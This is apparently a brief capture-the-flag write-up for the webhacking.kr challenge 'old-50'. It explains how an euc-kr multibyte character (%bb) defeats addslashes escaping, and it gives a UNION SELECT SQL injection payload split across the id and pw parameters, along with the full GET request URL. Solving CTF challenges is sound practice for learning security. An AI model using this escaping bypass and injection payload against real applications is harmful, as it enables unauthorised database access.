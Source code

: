 ```yaml
---
layout: default
title: old-50
---
```




another sql injection.
here we use insert %bb and then, after the addslashes put `\` before the `'`, it'll take the %bb + `\` and encode in `euc-kr` format.

this is the payload i gave:

(notice that i added \**\, because i want that the union will be in the `pw`, because I can't put it inside id)
here we want to insert this: `id=%bb%27%0b/*&pw=*/union%0bselect%0b3%0b--%0b'`

this is the query i used in the http get
```
https://webhacking.kr/challenge/web-25/?id=%bb%27%0b/*&pw=*/union%0bselect%0b3%0b--%0b
```

s